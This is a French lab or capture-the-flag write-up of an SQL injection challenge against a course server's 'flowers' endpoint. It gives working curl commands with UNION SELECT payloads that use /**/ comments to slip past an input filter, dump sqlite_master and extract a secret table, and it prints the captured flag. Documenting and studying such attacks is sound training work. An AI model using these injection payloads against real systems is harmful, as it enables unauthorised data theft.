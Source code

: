 ## 4. Injection SQL

### 1. Quelle partie de l'application est-elle vulnérable à une injection SQL ?

**Réponse** : La vulnérabilité à l'injection SQL se trouve dans le champ "id" du JSON envoyé à l'URL `http://sql.slh.cyfr.ch/flowers`. En utilisant une requête POST, nous pouvons injecter des requêtes SQL via ce champ pour manipuler les résultats de la base de données.

### 2. Le serveur implémente-t-il une forme de validation des entrées ? Pourquoi est-ce insuffisant dans ce cas ?

**Réponse** : Le serveur utilise une validation de base, mais elle est insuffisante car il ne filtre pas les caractères spéciaux comme `/` et `*`. Ces caractères peuvent être utilisés pour contourner les restrictions de validation et injecter des requêtes SQL valides, rendant l'application vulnérable à des attaques.

### 3. Quel est le flag ? Comment l'avez-vous obtenu ?

**Réponse** : Le flag est : `SLH25{D0N7_P4r53_5Q1_M4NU411Y}`. Nous avons obtenu le flag en exécutant les commandes suivantes dans le terminal :

1. **Récupération des tables dans la base de données** :

   - Nous avons d'abord envoyé une requête POST avec la commande suivante :

   ```bash
   curl -X POST http://sql.slh.cyfr.ch/flowers \
   -H "Content-Type: application/json" \
   -d '{"id":"1/**/UNION/**/SELECT/**/type,/**/name,/**/tbl_name,/**/rootpage/**/FROM/**/sqlite_master"}'
   ```

   - Cette requête utilise l'injection SQL pour interroger la table `sqlite_master`, qui contient les métadonnées des tables de la base de données. Grâce à l'opérateur `UNION`, nous avons pu combiner les résultats de la requête originale avec ceux de la table `sqlite_master`. La réponse obtenue a révélé les tables présentes dans la base de données, dont `super_secret_stuff` et `flowers`.

2. **Récupération du flag** :

   - Après avoir identifié la table contenant le flag, nous avons exécuté la commande suivante :

   ```bash
   curl -X POST http://sql.slh.cyfr.ch/flowers \
   -H "Content-Type: application/json" \
   -d '{"id":"1/**/UNION/**/SELECT/**/name,/**/value,/**/value,/**/value/**/FROM/**/super_secret_stuff"}'
   ```

   - Ici, nous avons à nouveau utilisé l'injection SQL pour interroger la table `super_secret_stuff`. Cette commande permet de récupérer les colonnes `name` et `value`, où le flag est stocké. La réponse reçue contenait le flag sous la forme :

   ```json
   [
       [1, "Rose", "Red", 5],
       ["flag", "SLH25{D0N7_P4r53_5Q1_M4NU411Y}", "SLH25{D0N7_P4r53_5Q1_M4NU411Y}", "SLH25{D0N7_P4r53_5Q1_M4NU411Y}"]
   ]
   ```
